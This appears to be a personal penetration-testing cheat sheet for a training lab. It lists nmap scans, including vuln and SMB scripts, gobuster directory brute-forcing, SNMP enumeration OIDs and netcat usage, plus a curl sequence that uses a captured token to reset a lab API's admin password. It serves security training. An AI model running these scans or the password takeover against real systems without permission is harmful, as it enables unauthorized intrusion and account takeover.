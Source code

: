 # Cheetsheet
## Websites
- Shodan.io: Gives info on websites
- https://www.ssllabs.com/ssltest/ = ssl vul teste and info on sites


  
Enumeration tips:
Can use inspect elements on a web page to find out what server its running on






















# Nmap 
### How to find scripts on nmap
```
ls /usr/share/nmap/scripts | grep <target word, eg:http>
```

### Starting scan 
```
nmap -sCV -T4 -O --osscan-guess -v -p- <target_ip>

```

### Script for checking for base cves

```
sudo nmap -sV -p<port> --script "vuln" <ip>
```


### run udp after tcp nmap to see if its open because its important if it is
```
sudo nmap -Pn -n $IP -sU --top-ports=100 --reason
```
### SMD enumeration typically for port 139 and 445 if they open
```
nmap -p 139,445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* <target_ip>
```

# WEBsite scanning

### Gobuster: map all its publicly-accessible files and directories
```
gobuster dir -u <target> -w /usr/share/wordlists/dirb/common.txt
```
If you can find anything under it then you can go even further like with this example to find more
```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
Use this command to dig deeper if you find users 
```
curl -i http://192.168.50.16:5002/users/v1
```
If found info and can try to login with 
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
If cant login could try to make my own account on the site
```
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
Can use the put method to insert account if other methods fail( Also the OAuth token is gathered from a login of a normal user)
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```


### Net cat
It is used to send and recive data over an open port, -lvnp is to setup a listener
```
nc <target_ip> <port>
```


### SNMP
```
-Nmap UDP scan-
sudo nmap <IP> -A -T4 -p- -sU -v -oN nmap-udpscan.txt

snmp walk is important to see what software and user accounts are on the machine

snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP>     #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25    #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2     #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2       #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3           #Opened TCP Ports

-Windows MIB values-
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports



```


#SQL injections
Put more info down below




























